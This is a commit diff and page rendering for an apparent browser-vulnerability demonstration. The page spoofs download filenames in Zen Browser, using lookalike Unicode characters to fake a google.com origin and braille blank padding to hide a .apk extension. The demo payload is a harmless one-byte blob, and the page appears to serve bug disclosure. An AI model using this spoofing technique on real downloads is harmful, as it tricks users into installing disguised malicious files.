

Before and after one commit to killukeren/donwload-vuln, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 217-800 px from the top of the page, without its empty margins (268-1011 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Add variant A: fake From line that fits the title

```diff
--- a/index.html
+++ b/index.html
@@ -38,14 +38,16 @@
   <h1>Download filename origin spoof</h1>
   <p class="lead">Zen Browser 1.24.2b — the download list shows a fake origin and hides the real extension.</p>
 
-  <button id="go">Download</button>
+  <button id="go">Variant A — fake "From" line</button>
+  <button id="go2">Variant B — hidden extension</button>
 
   <pre id="name"></pre>
 
   <ol>
-    <li>Click <b>Download</b>.</li>
+    <li>Click a button.</li>
     <li>Open the Zen library / downloads list.</li>
-    <li>The entry title reads <code>https∶∕∕google.com</code> — the <code>.apk</code> is elided.</li>
+    <li>Variant A reads <code>ini aplikasi apa From https∶∕∕google.com.apk</code>.</li>
+    <li>Variant B reads <code>https∶∕∕google.com</code> — the <code>.apk</code> is elided.</li>
   </ol>
 
   <p class="note">
@@ -64,17 +66,26 @@
 
 <script>
   // U+2236 RATIO, U+2215 DIVISION SLASH x2, U+2800 BRAILLE PATTERN BLANK x40
-  const NAME = "https\u2236\u2215\u2215google.com" + "\u2800".repeat(40) + ".apk";
+  const ORIGIN = "https\u2236\u2215\u2215google.com";
 
-  document.getElementById("name").textContent = NAME;
+  // A: whole string fits in the title (~45 chars), extension stays visible
+  const NAME_A = "ini aplikasi apa From " + ORIGIN + ".apk";
 
-  document.getElementById("go").onclick = () => {
+  // B: invisible padding pushes the extension past the ellipsis
+  const NAME_B = ORIGIN + "\u2800".repeat(40) + ".apk";
+
+  document.getElementById("name").textContent = NAME_A;
+
+  function download(name) {
     const blob = new Blob(["x"], { type: "application/octet-stream" });
     const a = document.createElement("a");
     a.href = URL.createObjectURL(blob);
-    a.download = NAME;
+    a.download = name;
     a.click();
-  };
+  }
+
+  document.getElementById("go").onclick = () => download(NAME_A);
+  document.getElementById("go2").onclick = () => download(NAME_B);
 </script>
 </body>
 </html>
```
Also changed, not shown: 1 other file.
